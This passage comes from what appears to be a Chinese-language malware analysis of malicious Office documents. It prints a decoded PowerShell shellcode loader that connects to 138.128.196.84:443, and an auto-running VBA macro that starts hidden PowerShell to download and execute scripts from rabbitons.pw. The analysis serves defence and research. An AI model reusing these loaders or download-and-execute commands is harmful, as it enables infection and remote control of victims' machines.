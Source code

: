 ![p18](http://drops.javaweb.org/uploads/images/d0b456c9ebd1d86c483c1bde9b095ab1bb62bb5f.jpg)

提取出文档中的宏中的加密字符解密后得到可读的ps脚本如下

```
$1 = '$c = ''[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'';$w = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru;[Byte[]];[Byte[]]$z = 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,[……] ,0x31,0x32,0x38,0x2e,0x31,0x39,0x36,0x2e,0x38,0x34,0x00,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5;$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$x=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($x.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$x,0,0,0);for (;;){Start-sleep 60};';$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($1));if([IntPtr]::Size -eq 8){$x86 = $env:SystemRoot + "\syswow64\WindowsPowerShell\v1.0\powershell";$cmd = "-nop -noni -enc ";iex "& $x86 $cmd $e"}else{$cmd = "-nop -noni -enc";iex "& powershell $cmd $e";}

```

可见，ps脚本的主要功能就是执行Shellcode，这段Shellcode的功能就是调用wininet.dll中的函数进行连接138.128.196.84地址的443端口。而138.128.196.84地址正为流量宝类的软件用的地址。

![p19](http://drops.javaweb.org/uploads/images/4b63be4a1768550acba512601851c9968e477359.jpg)

### 探测控制

样本对通过宏调用Powershell下载PE文件在受影响的系统上检查是否为关心的目标并执行进一步地操作，具备针对性攻击的特点。

样本MD5：fba6b329876533f28d317e60fe53c8d3

从样本中抽取出的宏主要是根据系统版本下载相应的文件执行

```
Sub AutoOpen()
    x1 = "Download"
    h = "Str"
    o = "power" & "shell" & ".exe"
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    abcdef = h & "ing"
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")

    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root\cimv2:Win32_Process")
    objProcess.Create o & " -ExecutionPolicy Bypass -WindowStyle Hidden -noprofile -noexit -c if ([IntPtr]::size -eq 4) {(new-object Net.WebClient)." & x1 & abcdef & "('http://rabbitons.pw/cache') | iex } else {(new-object Net.WebClient)." & x1 & abcdef & "('http://rabbitons.pw/css') | iex}", Null, objConfig, intProcessID

```
